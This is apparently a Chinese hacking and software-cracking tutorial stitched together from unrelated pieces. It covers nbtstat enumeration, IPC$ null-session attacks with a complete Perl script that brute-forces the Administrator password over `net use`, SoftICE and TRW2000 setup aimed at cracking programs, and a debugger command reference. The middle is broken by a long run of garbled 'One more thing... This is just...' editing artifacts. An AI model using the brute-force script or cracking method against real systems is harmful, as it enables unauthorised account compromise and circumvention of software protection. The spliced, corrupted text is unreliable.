`nbtstat [-a RemoteName] [-A IP_address] [-c] [-n] [-R] [-r] [-S] [-s] [interval]`

**参数说明：**

- `-a` 列出给定主机名的远程计算机的名字表（name table）。

图 2


图 3
```
C:\WINDOWS>nbtstat -A pcf16-server
Lana # 0:
Node IpAddress: [192.168.0.2] Scope Id: []
    The IP address is not in the correct format. It needs to be
    dotted decimal, for example 11.11.12.13
You entered "pcf16-server"
```

- `-A` 列出给定 IP 地址的远程计算机的名字表（见图 3, 3A）。

- `-c` 列出远程名字缓冲区 (name cache)，包括 IP 地址（见图 4）。

```
C:\WINDOWS>nbtstat -c
Lana # 0:
Node IpAddress: [192.168.0.2] Scope Id: []
    No names in cache
```

- `-n` 列出本地 NetBIOS 名字（见图 5）。

```
C:\WINDOWS>nbtstat -n
Lana # 0:
Node IpAddress: [192.168.0.2] Scope Id: []
                NetBIOS Local Name Table
Name                Type            Status
PCF8-SHMILY     <00>  UNIQUE        Registered
PCFRIEND        <00>  GROUP         Registered
PCF8-SHMILY     <03>  UNIQUE        Registered
PCF8-SHMILY     <20>  UNIQUE        Registered
PCFRIEND        <1E>  GROUP         Registered
SHMILYCHEM      <03>  UNIQUE        Registered
```

- `-r` 列出通过广播 (broadcast) 和 WINS 解析的名字（见图 6）。

```
C:\WINDOWS>nbtstat -r
    NetBIOS Names Resolution and Registration Statistics
--------------------------------------------------------
    Resolved By Broadcast     = 9
    Resolved By Name Server   = 0

    Registered By Broadcast   = 6
    Registered By Name Server = 0

    NetBIOS Names Resolved By Broadcast
--------------------------------------------------------
                PCF16-SERVER    <00>
                PCF7-GCH
                SJF
                PCF4-WANGYUAN
                PCF2-WWB
                PCF16-SERVER
                PCF12-CAT
                PCF1-WY
```

- `-R` 清除和重新装入远程的缓冲的名字表（见图 7）。

```
C:\WINDOWS>nbtstat -R
Successful purge and preload of the NBT Remote Cache Name Table.
```

- `-S` 列出和目标 IP 地址会话的表（见图 8）。

```
C:\WINDOWS>nbtstat -S
Lana # 0:
Mode IpAddress: [192.168.0.2] Scope Id: []

NetBIOS Connection Table

Local Name          State      In/Out  Remote Host          Input   Output
--------------------------------------------------------------------------------------------
PC8-SHMILY    <03>  Listening
PC8-SHMILY    <03>  Listening
SHMILYCHEN    <03>  Listening
```

- `-s` 列出会话表转换（见图 9）。

```
C:\WINDOWS>nbtstat -s
Lana # 0:
Mode IpAddress: [192.168.0.2] Scope Id: []

NetBIOS Connection Table

Local Name          State      In/Out  Remote Host          Input   Output
--------------------------------------------------------------------------------------------
PC8-SHMILY    <03>  Listening
PC8-SHMILY    <03>  Listening
SHMILYCHEN    <03>  Listening
```

NBTSTAT 命令输出的每一栏都有不同的含义，它们的标题含义解释如下：

- **Input** —— 接收到的字节数。
- **Output** —— 发送的字节数。
- **In/Out** —— 这个连接是来自该计算机（outbound）还是来自另外的系统（inbound）。
- **Life** —— 在你的计算机清除名字表之前存在时间。
- **Local Name** —— 连接时本地的名字。
- **Remote Host** —— 远程计算机的名字或 IP 地址。
- **Type** —— 一个名字可以有两种类型：unique 或 group。NetBIOS 名字的最后 16 个字符经常代表一些内容。因为同样的名字可以在同一计算机出现几次。该类型表示名字的最后一个字节（用 16 进制表示）。
- **State** —— 你的 NetBIOS 连接状态：

| 状态 (State) | 含义 (Meaning) |
| :--- | :--- |
| Accepting | 正在处理一个进入的连接 |
| Associated | 一个连接的端点已经建立，你的计算机与它以一个 IP 地址相关 |
| Connected | 你已经联系到了远程资源 |
| Connecting | 你的会话正试图对目标资源进行名字到 IP 地址的解析 |
| Disconnected | 你的计算机发出一个断开请求，正在等待远程计算机的响应 |
| Disconnecting | 正在结束你的连接 |
| Idle | 远程计算机的当前会话已经打开，但目前不接受连接 |
| Inbound | 一个 inbound 会话正试图连接 |
| Listening | 远程计算机可以使用了 |
| Outbound | 你的会话正在建立一个 TCP 连接 |
| Reconnecting | 如果第一次失败，它会在重新连接时显示这一信息 |

下面是一个 NBTSTAT 命令的实例（图 10）：

```
C:\WINDOWS>nbtstat -A 192.168.0.16
Lana # 0:
Node IpAddress: [192.168.0.2] Scope Id: []

NetBIOS Remote Machine Name Table

Name            Type        Status
PCF16-SERVER    <00>    UNIQUE  Registered
PCFRIEND        <00>    GROUP   Registered
PCF16-SERVER    <03>    UNIQUE  Registered
PCF16-SERVER    <20>    UNIQUE  Registered
PCFRIEND        <1E>    GROUP   Registered
55              <03>    UNIQUE  Registered

MAC Address - 00-68-6E-00-0D-70
```

```
C:\>nbtstat -A x.x.x.x
NetBIOS Remote Machine Name Table
Name        Type    Status
DATARAT     <00>    UNIQUE      Registered
R9LABS      <00>    GROUP       Registered
DATARAT     <20>    UNIQUE      Registered
DATARAT     <03>    UNIQUE      Registered
GHOST       <03>    UNIQUE      Registered
DATARAT     <01>    UNIQUE      Registered
MAC Address = 00-00-00-00-00-00
```

上面的输出是什么意思呢？尤其是 Type 这一栏，代表的是什么呢？再看看下面的表，它能告诉你什么？

| Name | Number | Type | Usage |
| :--- | :--- | :--- | :--- |
| \<computername\> | 00 | U | Workstation Service |
| \<computername\> | 01 | U | Messenger Service |
| \<_MSBROWSE_\> | 01 | G | Master Browser |
| \<computername\> | 03 | U | Messenger Service |
| \<computername\> | 06 | U | RAS Server Service |
| \<computername\> | 1F | U | NetDDE Service |
| \<computername\> | 20 | U | File Server Service |
| \<computername\> | 21 | U | RAS Client Service |
| \<computername\> | 22 | U | Exchange Interchange |
| \<computername\> | 23 | U | Exchange Store |
| \<computername\> | 24 | U | Exchange Directory |
| \<computername\> | 30 | U | Modem Sharing Server Service |
| \<computername\> | 31 | U | Modem Sharing Client Service |
| \<computername\> | 43 | U | SMS Client Remote Control |
| \<computername\> | 44 | U | SMS Admin Remote Control Tool |
| \<computername\> | 45 | U | SMS Client Remote Chat |
| \<computername\> | 46 | U | SMS Client Remote Transfer |
| \<computername\> | 4C | U | DEC Pathworks TCPIP Service |
| \<computername\> | 52 | U | DEC Pathworks TCPIP Service |
| \<computername\> | 87 | U | Exchange MTA |
| \<computername\> | 6A | U | Exchange IMC |
| \<computername\> | BE | U | Network Monitor Agent |
| \<computername\> | BF | U | Network Monitor Apps |
| \<username\> | 03 | U | Messenger Service |
| \<domain\> | 00 | G | Domain Name |
| \<domain\> | 1B | U | Domain Master Browser |
| \<domain\> | 1C | G | Domain Controllers |
| \<domain\> | 1D | U | Master Browser |
| \<domain\> | 1E | G | Browser Service Elections |
| \<INet~Services\> | 1C | G | Internet Information Server |
| \<IS~Computer_name\> | 00 | U | Internet Information Server |
| \<computername\> | 2B | U | Lotus Notes Server |
| IRISMULTICAST | 2F | G | Lotus Notes |
| IRISNAMESERVER | 33 | G | Lotus Notes |
| Forte_$ND800ZA | 20 | U | DCA Irmalan Gateway Service |

- **Unique (U)**：名字 (name) 可能只分配了一个 IP 地址。在一个网络设备上，多次出现一个名字已经被注册，但后缀是唯一的，从而整个条目就是唯一的。
- **Group (G)**：普通的组 (group)，同一个名字可能存在多个 IP 地址。
- **Multihomed (M)**：名字 (name) 是唯一的，但由于在同一计算机上有多个网络接口，这个配置在允许注册时是必须的。地址的数目最多 25 个。
- **Internet Group (I)**：这是组名字的一个特殊配置，用于 WinNT 的域名的管理。
- **Domain Name (D)**：NT 4.0 里新增的。

这个表是对 NBTSTAT 输出中 Type 的解释。通过详细分析 NBTSTAT 命令的输出，就能收集到目标计算机的许多信息。通过分析，就能发现目标计算机正在运行什么服务，甚至可以分析安装的软件包是什么，从而就能找到空隙利用。下一步就是从远程计算机收集可能的用户名。一个网络登录分成两个部分：用户名和口令。一旦一个破解者知道了用户名，他就等于成功了一半。

通过分析 NBTSTAT 的命令输出，破解者就能得到任何登录到那台计算机上的用户名。在 NBTSTAT 输出里，类型 Type 为 `<03>` 的就是用户名或计算机名。类型 Type 为 `<20>` 的就表示它是一个共享的资源。

## 2. IPC 的妙用——共享你的资源

IPC$ (Inter-Process Communication) 共享是 NT 计算机上的一个标准的隐含共享，它是用于服务器之间的通信的。NT 计算机通过使用这个共享来和其他的计算机连接，得到不同类型的信息。破解者常常利用这一点，通过使用空的 IPC 会话进行攻击。

有一个比较好的 IPC 会话工具 RedButton。它是个很灵巧的程序，能登录到 NT 系统而不会显示用户名和口令。这个工具运行环境是 NT。运行这个程序，将看到任何可能的共享，包括任何隐藏的 admin 共享（i.e. shares 以“$”结束）。默认的，有几个这样的可以得到的共享：C$, WINNT$, IPC$ 等等。

注意：IPC$ 共享不是一个目录、磁盘或打印机意义上的共享。你看到的“$”，它是默认的在系统启动时的 admin 共享。IPC 是指“interprocess communications”。IPC$ 共享提供了登录到系统的能力。注意，你试图通过 IPC$ 连接会在 EventLog 中留下记录，不管你是否登录成功。

破解者使用下面的命令对 IPC$ 实施攻击：

`C:\>net use \\目标机器的IP地址\ipc$ /user:<name> <passwd>`

当这个连接建立后，要将 username 和 password 送去加以确认。如果你以 "Administrator" 登录，则需要进行口令猜测。

可以重复使用 'net' 命令，进行 username 和 password 猜测：

`C:\>net use \\xxx.xxx.xxx.xxx\ipc$ /user:<name> <passwd>`

也可以使用脚本语句：

`open IPC, "net use \\xxx.xxx.xxx.xxx\ipc$ /user:<name> <passwd> |"`

NAT 工具能自动完成上述功能。NAT 是通过读取字典文件中的口令，进行重复登录，从而获取帐号。当然，可以编写一个脚本来实现 NAT 的功能。Perl 是一种很好的语言，是解释性的，如 Java，但运行速度比 Java 快。同时，Unix 系统能解释它。现在，98 和 NT 版的 Perl 也已经推出。下面这个脚本程序可以用来进行帐号和口令猜测。

```perl
----- begin script -----
# ipcchk.plx
# 该脚本从一个文本文件读入单词，并将该单词作为用户名和口令，进行
# IPC$ 连接。成功的连接保存到一个 log 文件。该脚本不检查输入参数的
# 有效性，因此必须输入目标机器的合法的 IP 地址。
#
# 用法: c:\>perl ipcchk.plx 目标机器的IP地址

$server = $ARGV[0];
if (length($server) == 0) {
    print "Usage : perl ipcchk.plx ipaddr\n";
    exit 0;
}

open(TEST, "names.txt") || die "Could not open file.";
open(LOG, ">>ipc.log") || die "Could not open log.";

while (<TEST>) {
    $name = $_;
    chomp($name);
    # print "net use \\\\$server\\ipc\$ /user:Administrator $name\n";
    open(IPC, "net use \\\\$server\\ipc\$ /user:Administrator $name |");
    while (<IPC>) {
        if (/successfully/) {
            print LOG "$server accepts connections for password $name\n";
            # delete a successful connection to avoid multiple connections to
            # the same machine
            system("net use \\\\$server\\ipc\$ /d");
        }
    }
    close(IPC);
}
----- end script -----
```

当然，你只要知道原理，可以用 C 语言或 BASIC 语言，编写一个具有上述功能的程序。一旦进入，就不仅仅是能够收集用户名了，还能做许多其他事情。接下来，破解者会试图看看目标计算机上有哪些共享的资源可以利用。可以使用下面一个命令：

`C:\>net view \\目标计算机的IP地址`

根据目标计算机的安全策略，这个命令有可能被拒绝。看看下面的例子：```
F4=" ^rs ;"
F5=" ^x ;"
F6=" ^ec ;"
F7=" ^here ;"
F8=" ^t ;"
F9=" ^bpx ;"
F10=" ^p ;"
F11=" ^G @SS:ESP ;"
F12=" ^p ret ;"
SF3=" ^format ;"
CF8=" ^XT ;"
CF9=" TRACE OFF ;"
CF10=" ^XP ;"
CF11=" SHOW B ;"
CF12=" TRACE B ;"
AF1=" ^wr ;"
AF2=" ^wd ;"
AF3=" ^S 0 L FFFFFFFF 8B, CA, F3, A6, 74, 01, 9F, 92, 8D, 5E, 08 ;" ; VB3 特征字符串
AF4=" ^s 0 l ffffffff 56, 57, 8B, 7C, 24, 10, 8B, 74, 24, 0C, 8B, 4C, 24, 14, 33, C0, F3, 66, A7 ;" ; VB4 特征字符串
AF5=" ^s 0 l ffffffff FF, 75, E0, E8, 85, EF, FF, FF, DC, 1D, 28, 10, 40, 00, DF, E0, 9E, 75, 03 ;" ; VB5 特征字符串
AF8=" ^XT R ;"
AF11=" ^dd dataaddr->0 ;"
AF12=" ^dd dataaddr->4 ;"
CF1=" altscr off ; lines 60 ; wc 32 ; wd 8 ;"
CF2=" ^wr ; ^wd ; ^wc ;"

; 以下是宏操作命令：
MACRO s7878=" S 30 : 0 L ffffffff '78787878' "
MACRO sname=" S 0 L FFFFFFFF 'toye' "
MACRO swide=" s 0 l FFFFFFFF '7', '8', '7', '8', '7', '8', '7', '8', '7', '8', '7', '8', '7', '8' "
MACRO reg=" bpx regqueryvalueexa if * esp->8 >= 'Soft' do " d esp->14 " "
MACRO bpxpe=" bpx loadlibrarya do " dd esp->4" "
MACRO bpxgeta=" bpx GetDlgItemTextA ; bpx getwindowtexta ; bpx getdlgitemint ; bpx getdlgitemtext ;"

; * * * * * Examples of sym files that can be included if you have the SDK * * * * *
; Change the path to the appropriate drive and directory
; LOAD=c:\windows\system\user.exe
; LOAD=c:\windows\system\gdi.exe
; LOAD=c:\windows\system\krnl386.exe
; LOAD=c:\windows\system\mmsystem.dll
; LOAD=c:\windows\system\win386.exe

; Exports - change the path to the appropriate drive and directory
EXP=c:\windows\system\advapi32.dll ; 这四行前不要加分号，否则不被装载，
SOFTICE 可能什么也拦不到 :
EXP=c:\windows\system\kernel32.dll
EXP=c:\windows\system\user32.dll
exp=c:\windows\system\gdi32.dll
exp=c:\windows\system\comctl32.dll ;

; 如你要破解 VB 程序,下面的 VB 运行库将要装载,SOFTICE 默认值是没有这几行,你需手动加上。
; EXP=c:\windows\system\msvbvm60.dll ; Visual Basic 6
EXP=c:\windows\system\msvbvm50.dll ; Visual Basic 5 注意在这五个 DLL 中最好不要同时装载 2 个以上
; EXP=c:\windows\system\vb40032.dll ; Visual Basic 4 (32bit)
; EXP=c:\windows\system\vb40016.dll ; Visual Basic 4 16-bit 较少见
; EXP=c:\windows\system\vbrun300.dll ; Visual Basic 3

; EXP=c:\windows\system\vga.drv ;
; EXP=c:\windows\system\vga.3gr
; EXP=c:\windows\system\sound.drv
; EXP=c:\windows\system\mouse.drv
; EXP=c:\windows\system\netware.drv
; EXP=c:\windows\system\system.drv
; EXP=c:\windows\system\keyboard.drv
; EXP=c:\windows\system\toolhelp.dll
; EXP=c:\windows\system\shell.dll
; EXP=c:\windows\system\commdlg.dll
; EXP=c:\windows\system\olesvr.dll
; EXP=c:\windows\system\olecli.dll
; EXP=c:\windows\system\mmsystem.dll
; EXP=c:\windows\system\winoldap.mod
; EXP=c:\windows\progman.exe
; EXP=c:\windows\drwatson.exe

; * * * * * Examples of export symbols that can be included for Windows 95 * * * * *
; Change the path to the appropriate drive and directory

EXP=c:\windows\system\kernel32.dll
EXP=c:\windows\system\user32.dll
EXP=c:\windows\system\gdi32.dll
EXP=c:\windows\system\comdlg32.dll
EXP=c:\windows\system\shell32.dll
EXP=c:\windows\system\advapi32.dll
EXP=c:\windows\system\shell32.dll
EXP=c:\windows\system\comctl32.dll
; EXP=c:\windows\system\crtdll.dll
; EXP=c:\windows\system\version.dll
EXP=c:\windows\system\netlib32.dll
; EXP=c:\windows\system\msshrui.dll
EXP=c:\windows\system\msnet32.dll
EXP=c:\windows\system\mspwl32.dll
; EXP=c:\windows\system\mpr.dll
```

启动 Windows 装载 SoftICE 后，咦！怎么没反应？没调试画面！哈哈，别着急，按 CTRL + D 看看，再按一下回到 Windows 下，或按 F5 也能回来。此时调试窗口像在 Windows 开的一个窗口，如果像全屏 DOS 一样的窗口，那就是安装显卡时参数没选好，此时按上文修正即可。下面的命令是调整 SoftICE 窗口状态：

- set font n (n=1, 2, 3 设置字体；本人建议 set font 2 在 800 乘 600 条件下)
- set origin x, y (x, y 锁定窗口)
- lines n (n=25 - 128 设置显示行数；本人建议 lines 40)
- Ctrl + Alt + 光标键 (移动窗口)
- Ctrl + Alt + home (重设窗口位置原点 0, 0)
- Ctrl + L (刷新)

如你以默认 winice.dat 启动 SoftICE，有可能需用 WD 打开数据窗口；用 SET FONT 2 设置字体等重复工作。你可在 winice.dat 文件内设置自动执行命令操作，方法是在 INIT 这一行，各命令用分号分开，如：

`INIT=" WD 2; WC 14; FAULTS OFF; IXHERE OFF; IYHERE OFF; set font 2; lines 40; x,"` 这样配置后界面类似 TRW2000。（这些是在 800 乘 600 条件下的情况，如你不是此分辨率可调整 set font n; lines n）

## 二、 SoftICE for NT/2K 安装与配置

- 1、 SoftICE for NT/2k 的安装与 for 9x 版本差不多，所不同的是在装载 SoftICE 方式选择，如图 9 所示。可根据需要选择不同的装载方式，注：如你选择了 Manual 方式，要装载 SoftICE，需要从 SoftICE 的菜单里运行选项：START SoftICE 快捷方式来装载 SoftICE。

- 2、在 NT 下，配置 SoftICE 是用 SoftICE Loader（从你的开始菜单选），选择 Edit/SoftICE，一般的选项是初始化，这里你可参考手册了解不同的开关选项的详细描述。如：`CODE ON; FAULTS OFF; I3HERE OFF; WD 3; WF; X;`

其他两个重要的选项是 Symbols & Exports。如果你拥有自己系统的 SDK（软件开发工具包），你可用 SoftICE 装载并调试它。那些没有 SDK 的，应该用 exports 选项从 %WinNT%/System32 目录下增加下面的 dll 文件：advapi32.dll, comctl32.dll, comdlg32.dll, gdi32.dll, kernel32.dll, msvbvm50/60.dll（如果需要）, msvcrt.dll（如果需要）, ole32.dll, oleaut32.dll, shell32.dll, user32.dll, version.dll。

## 三、 TRW2000 的安装与配置

国人自己编写的调试软件，完全兼容 SoftICE 各种指令，但现在许多软件能检测 SoftICE 存在，而 TRW2000 在这方面就好多了。TRW2000 有它自己的独特方面，是针对破解软件优化的，Windows 下的跟踪调试程序，跟踪功能更强；可以设置各种断点，只是断点种类更多；它可以像一些脱壳工具一样完成对加密外壳的去除，自动生成 EXE 文件，只是留给用户更多的选择；在 DOS 下的版本为 TR。

### 1. 安装 TRW2000

TRW 安装简单多了，没有 SoftICE 那样复杂，但目前 TRW2000 不支持 Windows NT。它发布的版本是一个 ZIP 压缩包，才 200 多 K。只要将其解压缩到一个目录下，然后运行 TRW2000.EXE 即可，如图 10 所示，无须安装或者重启计算机。

激活方式同 SoftICE 不一样：

- (1) Ctrl + M 特权级 0 级的热键，能够立即中断 Win9x。相当于 SoftICE 的热键 Ctrl + D。
- (2) Ctrl + N 特权级 3 级的热键。在绝大多数时候，我们并不需要在 0 级上中断。Ctrl + N 可以中断 Windows 的特权级 3 级的前台线程。这应该是我们最常用的。其他指令同 SoftICE 兼容，但是 TRW2000 有许多更新的思想，具体看后面的介绍及范例。另外， TRW2000 可支持 plugins，也可装载 dll 文件。在 1.15 版本以上，在安装目录下有一 dll 目录，如你特别需要的 dll 复制到此目录，即可装载，如破解 VB 时，就需要将 VB dll 复制到此目录。具体参考`. This is just `你可以用 BL 命令...`.

    *   *One more thing:* `+ - 一旦断点被复合后...`. This is just `一旦断点被复合后...`.

    *   *One more thing:* `+ - 〔例〕 BPAND 0，2，3`. This is just `〔例〕 BPAND 0, 2, 3`.

    *   *One more thing:* `+ - 这道命令将复合...`. This is just `这道命令将复合...`.

    *   *One more thing:* `+ - 二、处理断点`. This is just `## 二、处理断点`.

    *   *One more thing:* `+ - Soft - ICE 提供许多命令...`. This is just `SoftICE 提供许多命令...`.

    *   *One more thing:* `+ - BD——中止断点`. This is just `- BD——中止断点`.

    *   *One more thing:* `+ - BE——启动断点`. This is just `- BE——启动断点`.

    *   *One more thing:* `+ - BL——列出断点`. This is just `- BL——列出断点`.

    *   *One more thing:* `+ - BPE——编辑断点`. This is just `- BPE——编辑断点`.

    *   *One more thing:* `+ - BPT——把断点当样板`. This is just `- BPT——把断点当样板`.

    *   *One more thing:* `+ - BC——清除断点`. This is just `- BC——清除断点`.

    *   *One more thing:* `+ - BD——中止断点`. This is just `### BD——中止断点`.

    *   *One more thing:* `+ - 语法： BD list | *`. This is just `语法： BD list | *`.

    *   *One more thing:* `+ - list —— 一串由逗号...`. This is just `list —— 一串由逗号...`.

    *   *One more thing:* `+ - * —— 中止所有断点。`. This is just `* —— 中止所有断点。`.

    *   *One more thing:* `+ - 解说：`. This is just `解说：`.

    *   *One more thing:* `+ - BD 命令是用来...`. This is just `BD 命令是用来...`.

    *   *One more thing:* `+ - 〔例〕 BD 1, 3`. This is just `〔例〕 BD 1, 3`.

    *   *One more thing:* `+ - 这道命令会暂时...`. This is just `这道命令会暂时...`.

    *   *One more thing:* `+ - BE——启动断点`. This is just `### BE——启动断点`.

    *   *One more thing:* `+ - 语法： BE list | *`. This is just `语法： BE list | *`.

    *   *One more thing:* `+ - list —— 一串由逗号...`. This is just `list —— 一串由逗号...`.

    *   *One more thing:* `+ - * —— 启动所有断点。`. This is just `* —— 启动所有断点。`.

    *   *One more thing:* `+ - 解说：`. This is just `解说：`.

    *   *One more thing:* `+ - BE 命令是用来...`. This is just `BE 命令是用来...`.

    *   *One more thing:* `+ - 〔例〕 BE 3`. This is just `〔例〕 BE 3`.

    *   *One more thing:* `+ - 这道命令会启动...`. This is just `这道命令会启动...`.

    *   *One more thing:* `+ - BL——列出断点`. This is just `### BL——列出断点`.

    *   *One more thing:* `+ - 语法：BL`. This is just `语法：BL`.

    *   *One more thing:* `+ - 解说：`. This is just `解说：`.

    *   *One more thing:* `+ - BL 命令会显示...`. This is just `BL 命令会显示...`.

    *   *One more thing:* `+ - 断点的状态分为...`. This is just `断点的状态分为...`.

    *   *One more thing:* `+ - BL 命令没有参数。`. This is just `BL 命令没有参数。`.

    *   *One more thing:* `+ - 〔例〕 BL`. This is just `〔例〕 BL`.

    *   *One more thing:* `+ - 这道命令会显示...`. This is just `这道命令会显示...`.

    *   *One more thing:* `0 BPMB 1234 : 0000 W EQ 0010 C=03`. This is just `0 BPMB 1234:0000 W EQ 0010 C=03`.

    *   *One more thing:* `+ - BPE——编辑断点`. This is just `### BPE——编辑断点`.

    *   *One more thing:* `+ - 语法： BPE break - number`. This is just `语法： BPE break-number`.

    *   *One more thing:* `+ - 解说：`. This is just `解说：`.

    *   *One more thing:* `+ - BPE 命令会把...`. This is just `BPE 命令会把...`.

    *   *One more thing:* `+ - Enter 重新输入。`. This is just `Enter 重新输入。`.

    *   *One more thing:* `+ - 〔例〕 BPE 1`. This is just `〔例〕 BPE 1`.

    *   *One more thing:* `+ - 这道命令会把 1 号断点的叙述搬到编辑行并清除原 1 号断点。按 Enter 可以把这个断点重新输入。`. This is just `这道命令会把 1 号断点的叙述搬到编辑行并清除原 1 号断点。按 Enter 可以把这个断点重新输入。`.

    *   *One more thing:* `+ - BPT——把断点当样板`. This is just `### BPT——把断点当样板`.

    *   *One more thing:* `+ - 语法： BPT break - number`. This is just `语法： BPT break-number`.

    *   *One more thing:* `+ - 解说：`. This is just `解说：`.

    *   *One more thing:* `+ - BPT 命令会把...`. This is just `BPT 命令会把...`.

    *   *One more thing:* `+ - 原存在的断点叙述...`. This is just `原存在的断点叙述...`.

    *   *One more thing:* `+ - 〔例〕 BPT 3`. This is just `〔例〕 BPT 3`.

    *   *One more thing:* `+ - 这道命令会把 3 号断点的样板放入编辑行。当你按下 Enter 后会增加一个新断点。`. This is just `这道命令会把 3 号断点的样板放入编辑行。当你按下 Enter 后会增加一个新断点。`.

    *   *One more thing:* `+ - BC——清除中断`. This is just `### BC——清除中断`.

    *   *One more thing:* `+ - 语法： BC list | *`. This is just `语法： BC list | *`.

    *   *One more thing:* `+ - list —— 一串由逗号...`. This is just `list —— 一串由逗号...`.

    *   *One more thing:* `+ - * —— 启动所有断点。`. This is just `* —— 启动所有断点。`.

    *   *One more thing:* `+ - 解说：`. This is just `解说：`.

    *   *One more thing:* `+ - BC 命令是用来...`. This is just `BC 命令是用来...`.

    *   *One more thing:* `+ - 〔例〕 BC *`. This is just `〔例〕 BC *`.

    *   *One more thing:* `+ - 这道命令会清除所有的断点。`. This is just `这道命令会清除所有的断点。`.

    *   *One more thing:* `+ - 三、显示及编辑类命令`. This is just `## 三、显示及编辑类命令`.

    *   *One more thing:* `+ - 命令：`. This is just `命令：`.

    *   *One more thing:* `+ - U——反编译或显示原程序码`. This is just `- U——反编译或显示原程序码`.

    *   *One more thing:* `+ - R——显示或更改暂存器`. This is just `- R——显示或更改暂存器`.

    *   *One more thing:* `+ - MAP——显示系统内存分布图`. This is just `- MAP——显示系统内存分布图`.

    *   *One more thing:* `+ - D——用最后一次指定的形式显示内存`. This is just `- D——用最后一次指定的形式显示内存`.

    *   *One more thing:* `+ - DB——以字节的形式显示内存`. This is just `- DB——以字节的形式显示内存`.

    *   *One more thing:* `+ - DW——以字的形式显示内存`. This is just `- DW——以字的形式显示内存`.

    *   *One more thing:* `+ - DD——以双字的形式显示内存`. This is just `- DD——以双字的形式显示内存`.

    *   *One more thing:* `+ - E——用最后一次指定的形式编辑内存`. This is just `- E——用最后一次指定的形式编辑内存`.

    *   *One more thing:* `+ - EB——以字节的形式编辑内存`. This is just `- EB——以字节的形式编辑内存`.

    *   *One more thing:* `+ - EW——以字的形式编辑内存`. This is just `- EW——以字的形式编辑内存`.

    *   *One more thing:* `+ - ED——以双字的形式编辑内存`. This is just `- ED——以双字的形式编辑内存`.

    *   *One more thing:* `+ - INT ——显示最后一次呼叫的中断号码`. This is just `- INT ——显示最后一次呼叫的中断号码`.

    *   *One more thing:* `+ - 或 H——显示辅助信息`. This is just `- ? 或 H——显示辅助信息`.

    *   *One more thing:* `+ - VER——显示 Soft - ICE 的版本号码`. This is just `- VER——显示 SoftICE 的版本号码`.

    *   *One more thing:* `+ - U——反编译或显示原程序码`. This is just `### U——反编译或显示原程序码`.

    *   *One more thing:* `+ - 语法： U address L = length`. This is just `语法： U address L=length`.

    *   *One more thing:* `+ - length —— 要反编译的程序码长度`. This is just `length —— 要反编译的程序码长度`.

    *   *One more thing:* `+ - 解说：`. This is just `解说：`.

    *   *One more thing:* `+ - U 这个命令会显示正在调试的程序的程序码。`. This is just `U 这个命令会显示正在调试的程序的程序码。`.

    *   *One more thing:* `+ - 如果没有指定 length ，内定值是 8 行如果程序代码窗口是可见的，则程序代码会显示在其中。

如果指定的地址范围的原始程序代码有载入，由目前的原始码模式来决定是否显示原始码。

〔例〕 `U $-10`
这道命令从目前地址的前 10h 字节开始反编译。

〔例〕 `U 499`
这道命令会从 499 行开始显示原始码。程序代码窗口必须是可见的且必须在原始码模式。

### R——显示或更改暂存器

语法：`R register-name = value`

register-name —— 为下列任一：
AL、AH、AX、BL、BH、BX、CL、CH、CX、DL、DH、DX、DI、SI、BP、SP、IP、CS、DS、ES、SS、或 FL

value —— 如果 register-name 不是 FL，value 是个 16 进位值或运算式。若 register-name 为 FL，value 是下列旗号符号一或多个的组合。旗号符号可视需要在前面加上 + 或 -。

- **O** —— Overflow flag 溢位旗号
- **D** —— Direction flag 方向旗号
- **I** —— Interrupt flag 中断旗号
- **S** —— Sign flag 正负号旗号
- **Z** —— Zero flag 零值旗号
- **A** —— Auxiliary carry flag 辅助进位旗号
- **P** —— Parity flag 极性旗号
- **C** —— Carry flag 进位旗号

解说：
R 命令是用来显示或更改暂存器的值的。

如果没有指定参数会显示所有暂存器和旗号的值及目前 CS:IP 的程序代码。

如果仅指定 register-name 而未加 value，则 Soft-ICE 会显示指定暂存器现在的值并提示你输入新值。如果 register-name 是 FL，目前设置的旗号会以高亮度大写显示；未设置的旗号则用普通小写显示。要维持现在暂存器的值，直接按 Enter。

如果 register-name 和 value 均有指定，则指定的暂存器的值将被改成 value。

想要改变旗号的值，把 FL 当 register-name，后接你想切换的旗号符号。如果要设置某旗号，在旗号符号前加上 +。要关闭某旗号，则在旗号符号前加上一个 -。旗号可以按任何顺序排列。

〔例〕 `R AH 5`
这道命令会把 AH 暂存器的值改成 5。

〔例〕 `R FL = O Z P`
这道命令会切换 O、Z、P 旗号的值。

〔例〕 `R FL`
这道命令会显示目前旗号的值并让你可以修改其值。

〔例〕 `R FL O + A - C`
这道命令会切换 O 旗号，设置 A 旗号并关闭 C 旗号。

### MAP——显示系统内存分布图

语法：`MAP`

解说：
MAP 命令显示各内存部分的名称、位置和大小。大小是以页来计算的。一页等于 10h bytes。CS:IP 所指的部分会以高亮度显示。

使用 MAP 命令的时机：
- 断点发生时指向未知的内存区段。
- 你想控制常驻程序或系统程序。你可以根据 MAP 命令所显示的开始地址及大小来设置范围断点。
- 你怀疑程序或系统在其内存空间改写码。MAP 命令可用来找出此区段的内存地址以便在 CS:IP 中使用。
- 你必须找出哪个常驻程序拥有目前的中断向量。

〔例〕 `MAP`
以下是这道命令显示的范例：
... ... ... ...
若 DOS 的版本低于 3.1, 将显示程序的地址而非其程序名称。

### D, DB, DW, DD——显示内存

语法：`D size address L = length`

- **size** —— B: byte, W: word, D: double word
- **length** —— 要显示几字节。

解说：
D 这个命令会显示指定地址的内存内容。

内存内容是以指定的 size 的形式显示。如果没有指定 size, 会以最后一次使用的 size 来显示。所有的形式均会显示 ASCII 码。

如果未指定 address, 则由前一次显示的最后一字节的后一字节开始显示。如果没有指定 length, 内定值是 8 行或因窗口较小而少一些。

若资料窗是可见的，则资料会显示在资料窗且 length 会被忽略。

〔例〕 `DW DS:00 L=8`
这道命令会以字和 ASCII 的形式显示目前资料节段的前 8 字节。

### E, EB, EW, ED——以字节的形式编辑内存

语法：`E size address data-list`

- **size** —— B: byte, W: word, D: double word
- **data-list** —— 一串指定的 size 的资料 (字节、字或双字) 或以逗号、空白分隔的加引号字符串。加引号的字符串可以使用单引号或双引号。

解说：
E 命令显示指定地址的内存内容并让你编辑其值。这个命令以 ASCII 的形态显示内存内容，并且是以指定的 size 形态。

内存编辑器让你可以快速地更新内存。你可以键入 ASCII 字符或打入位元组、字、双字的值以编辑内存。如果没有指定 size, 以最后一次使用的 size 为准。以下是内存编辑的按键：

- **↑** —— 游标上移
- **↓** —— 游标下移
- **→** —— 游标右移
- **←** —— 游标左移
- **SPACE** —— 游标移至下一个元素上
- **TAB** —— 在数字区和 ASCII 区间切换
- **ESC 或 Enter** —— 离开内存编辑器

